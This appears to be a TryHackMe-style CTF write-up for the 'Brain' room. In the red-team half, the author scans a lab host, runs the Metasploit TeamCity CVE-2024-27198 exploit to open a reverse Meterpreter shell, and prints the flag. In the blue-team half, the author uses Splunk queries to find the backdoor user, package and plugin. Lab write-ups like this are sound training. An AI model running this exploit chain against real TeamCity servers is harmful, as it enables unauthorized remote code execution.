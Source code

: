 # Brain
![](../../../assets/images/Pasted%20image%2020251031112046.png)

---
## Red
### Enumeration

```js
 .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/user/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.201.125.63:22
Open 10.201.125.63:80
Open 10.201.125.63:50000
[~] Starting Script(s)
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-11-01 11:10 UTC
Initiating Ping Scan at 11:10
Scanning 10.201.125.63 [2 ports]
Completed Ping Scan at 11:10, 0.34s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:10
Completed Parallel DNS resolution of 1 host. at 11:10, 0.06s elapsed
DNS resolution of 1 IPs took 0.07s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 11:10
Scanning 10.201.125.63 [3 ports]
Discovered open port 22/tcp on 10.201.125.63
Discovered open port 80/tcp on 10.201.125.63
Discovered open port 50000/tcp on 10.201.125.63
Completed Connect Scan at 11:10, 0.29s elapsed (3 total ports)
Nmap scan report for 10.201.125.63
Host is up, received syn-ack (0.32s latency).
Scanned at 2025-11-01 11:10:46 UTC for 0s

PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack
80/tcp    open  http    syn-ack
50000/tcp open  ibm-db2 syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.71 seconds
```

---
There is one login page on port `50000`

![](../../../assets/images/Pasted%20image%2020251101164357.png)

![](../../../assets/images/Pasted%20image%2020251101170127.png)

I just Noticed Version `2023.11.3` so searched it immediately and found this on [rapid7](https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/)

![](../../../assets/images/Pasted%20image%2020251101170143.png)

then just searched on `msfconsole` and found it :

![](../../../assets/images/Pasted%20image%2020251101183337.png)

---
### Exploitation

i used 4th module from above list : 

```bash
[msf](Jobs:0 Agents:0) exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) >> set LHOST 10.8.31.47
LHOST => 10.8.31.47
[msf](Jobs:0 Agents:0) exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) >> exploit 
[*] Started reverse TCP handler on 10.8.31.47:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Linux.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.ZmR4bUVYVzdQLVdJLUo4MHVGS0hYbmdUSllz.NmE3ZGY0MzItMTk4Yi00Y2VjLWEwODgtYmFiMDE1MGNiMzQ3
[*] Uploading plugin: m7WplZt9
[*] Sending stage (58073 bytes) to 10.201.125.63
[*] Deleting the plugin...
[+] Deleted /opt/teamcity/TeamCity/work/Catalina/localhost/ROOT/TC_147512_m7WplZt9
[+] Deleted /home/ubuntu/.BuildServer/system/caches/plugins.unpacked/m7WplZt9
[*] Meterpreter session 1 opened (10.8.31.47:4444 -> 10.201.125.63:54264) at 2025-11-01 11:40:06 +0000
[*] Deleting the authentication token...
[!] This exploit may require manual cleanup of '/opt/teamcity/TeamCity/webapps/ROOT/plugins/m7WplZt9' on the target
```

and i got shell : 

```js
msf](Jobs:0 Agents:0) exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) >> exploit 
[*] Started reverse TCP handler on 10.8.31.47:4445 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Linux.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.cUdvN1duVmp3RVJQal9aZ2IyTUVCLVExQmRF.OTVkY2U3YzEtZjgwZC00MzIwLWI5ZmUtZjFmN2ZjODZkYzdm
[*] Uploading plugin: ZPYR1Toq
[*] Sending stage (58073 bytes) to 10.201.63.63
[*] Deleting the plugin...
[*] Deleting the authentication token...
[+] Deleted /opt/teamcity/TeamCity/work/Catalina/localhost/ROOT/TC_147512_ZPYR1Toq
[+] Deleted /home/ubuntu/.BuildServer/system/caches/plugins.unpacked/ZPYR1Toq
[*] Meterpreter session 2 opened (10.8.31.47:4445 -> 10.201.63.63:40768) at 2025-11-01 12:59:30 +0000
[!] This exploit may require manual cleanup of '/opt/teamcity/TeamCity/webapps/ROOT/plugins/ZPYR1Toq' on the target

(Meterpreter 2)(/opt/teamcity/TeamCity/bin) >

```

and found flag in `/home/ubuntu`

```js
(Meterpreter 2)(/home/ubuntu) > ls
Listing: /home/ubuntu
=====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  4096  dir   2025-11-01 11:54:58 +0000  .BuildServer
000667/rw-rw-rwx  0     fif   2025-11-01 11:52:59 +0000  .bash_history
100667/rw-rw-rwx  220   fil   2020-02-25 12:03:22 +0000  .bash_logout
100667/rw-rw-rwx  3771  fil   2020-02-25 12:03:22 +0000  .bashrc
040777/rwxrwxrwx  4096  dir   2024-07-02 09:39:13 +0000  .cache
040777/rwxrwxrwx  4096  dir   2024-08-02 08:54:48 +0000  .config
040777/rwxrwxrwx  4096  dir   2024-07-02 09:40:18 +0000  .local
100667/rw-rw-rwx  807   fil   2020-02-25 12:03:22 +0000  .profile
100667/rw-rw-rwx  66    fil   2024-07-02 09:59:35 +0000  .selected_editor
040777/rwxrwxrwx  4096  dir   2024-07-02 09:38:50 +0000  .ssh
100667/rw-rw-rwx  0     fil   2024-07-02 09:39:21 +0000  .sudo_as_admin_successful
100667/rw-rw-rwx  214   fil   2024-07-02 09:46:35 +0000  .wget-hsts
100666/rw-rw-rw-  38    fil   2025-11-01 13:13:38 +0000  flag.txt

(Meterpreter 2)(/home/ubuntu) > cat flag.txt
THM{faa9bac345709b6620a6200b484c7594}
```

---
## Blue 

so the first question is :

`What is the name of the backdoor user which was created on the server after exploitation?`

so i just selected all time here 

![](../../../assets/images/Pasted%20image%2020251101190153.png)

```js
source="/var/log/auth.log" index=* "new user"
```

i searched this and found this : 

![](../../../assets/images/Pasted%20image%2020251101190517.png)

---
Now the second question :
`What is the name of the malicious-looking package installed on the server?`

for package i checked `dpkg.log` using this 

```js
source="/var/log/dpkg.log" *install*
```

but i found many pkgs so i mentioned date from user that we found earlier `eviluser` 

```js
source="/var/log/dpkg.log" date_month="july" date_mday="4" *install*
```

![](../../../assets/images/Pasted%20image%2020251101191303.png)

---
Now last question :

`What is the name of the plugin installed on the server after successful exploitation?`

so this question is about plugin of teamcity i remembered that there is one directory when i got shell first time 

![](../../../assets/images/Pasted%20image%2020251101191555.png)

and when i go one directory back i found `logs` directory 

![](../../../assets/images/Pasted%20image%2020251101191828.png)

then i tried with many files and finally using this i found it : 

```js
source="/opt/teamcity/TeamCity/logs/teamcity-activities.log"
index=* 
```

![](../../../assets/images/Pasted%20image%2020251101192651.png)

---

